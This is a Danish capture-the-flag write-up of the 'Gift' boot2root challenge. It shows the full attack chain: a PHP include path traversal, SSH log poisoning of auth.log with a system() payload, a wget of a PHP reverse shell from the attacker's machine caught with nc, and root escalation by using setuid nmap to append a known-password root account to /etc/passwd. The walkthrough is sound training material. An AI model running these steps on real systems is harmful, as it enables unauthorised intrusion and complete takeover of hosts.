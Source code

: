 ```yaml
---
layout: post
title:  "DDC 2022 'Gift' Writeup"
date:   2022-05-07 16:17:46 +0200
categories: writeups
---
```

# Gift
Dette er mit writeup for Gift, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `gift.hkn` på screenshots)

Ihvertfald er `Gift` en `boot2root` challenge hvor hensigten er at udnytte et `php include` statement til at udføre `log poisoning` igennem  `auth.log`.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```
root@d993e6b1ec7c:/# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 18:47 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```

Hvilket viser `ssh` åben på port 22 og vores `webserver` på 8000.

Webserveren viser dope ass billeder af henholdsvis mig og mrbeef (skud ud til amar også).

Hvis man trykker `view source` kan man se at der er et link til backup som viser source koden.

```php
<!DOCTYPE html>
<style>
.container {
  display: flex;
  justify-content: center;
}
.center{
    position: absolute;
}
</style>
<html>
<body>
<div class="container">
  <div class="center"><h1>Er det MrBeef eller 0xlimE? Det er ihvertfald giftigt</h1></div>
    <br>


<?php
$pics = range(1,13);
echo("<div class='center' style='width:1000px; height:1000px; margin-top: 100px; background-image: url(\"pics/".$pics[rand(0, count($pics) - 1)].".png\");'></div>");
if( isset($_GET['adminDebug']))
{   
    include("admin/".$_GET['adminDebug']);
}

?>

</div>

<div style="display: none;">
<a href ="secretSAUCE/src.zip">Source here</a>
</div>
</body>
</html>
```

Der er et farligt farligt `php include` parret med `path traversal` se mere her: https://medium.com/@emmapinheiro42/php-include-ignore-4a3ba81371af

Vi kan prøve at inkludere `/var/log/auth.log` for at se om vi kan `forgifte` den log.

![authlog](/assets/auth.log.jpg)

Yes det virker. Vores næste step er at få noget php kode ind i loggen, som vi kan udnytte.

Vi logger ind med

```
ssh '<?php echo(system($_GET["a"])); ?>'@gift.hkn
```

skriver et forkert password, og prøver at inkludere loggen igen med parameter fra payload ovenover.

![logpoison](/assets/logpoison.jpg)

ok vi har command execution.

Lad os få en mere stabil reverse shell, jeg har god erfaring med at skrive den her php revshell til en fil og bruge den https://gist.github.com/rshipp/eee36684db07d234c1cc

Lav en fil på din angriber maskine, kald den for `rev.php` og læg din egen ip ind, host den med en python3 server `python3 -m http.server 80` og hent den ned til target ved at kalde.

```
http://gift.hkn:8000/?adminDebug=../../../../../var/log/auth.log&a=wget http://DIN IP HER/rev.php
```

herefter kan du trigger din reverse shell ved først at køre `nc -lvnp 1234` på din angriber maskine, og så gå til `gift.hkn/rev.php`

![revshell](/assets/revvy.jpg)


ok så er vi på maskinen.

Her laver du så standard linux privesc enum, jeg plejer at bruge linpeas. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Herfra finder du så ud af at `nmap` er installeret på maskinen med `setuid` bit på.

![revshell](/assets/setuid.JPG)

Det betyder at vi kan køre nmap som root brugeren. 

Vi tjekker gtfobins ud.

https://gtfobins.github.io/gtfobins/nmap/

Ok, ser ud til at vi har root read, men vi ved ikke hvad flaget hedder. Vi har også root write, så lad os tilføje en root bruger med et password vi kender.

her er en god artikel om at skrive til /etc/passwd
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/ 

vi vil gerne bruge ovenstående taktik til at skrive en ny bruger, som har root access og som har et password vi kender. Vi kan generere hash for passwordet `a` således:

![revshell](/assets/password.jpg)

Ok, så kigger vi lige på det angreb de beskriver på gtfobins til read.

```bash
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

Det her kan vi modificere en smule til at skrive til `/etc/passwd`

```bash
TF=$(mktemp) && echo 'local f=io.open("/etc/passwd", "ab"); f:write("\nroot3:OEE5bK0hmfPj.:0:0:root:/root:/bin/bash"); io.close(f);' > $TF && nmap --script=$TF
```

**main points**
* we change the file to `/etc/passwd`
* we change `rb` from read bytes to `ab` append bytes
* we change `read` to `write` .
* we change the payload to write `\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash`

Vi kan køre exploit på remote og prøve at privesc

![revshell](/assets/privesc1.jpg)

lol fuck, ok vi skal have en upgraderet shell, her er en god guide til at få en bedre shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


vi kunne også have lagt en ny ssh nøgle i vores bruger sssh mappe

nu prøver vi

```bash
su root3
Password: a
```

cool vi er root og hopper til `/root` og flag!


![revshell](/assets/flag.jpg)



sry for at have sagt det her er nemt, det er min fejl :(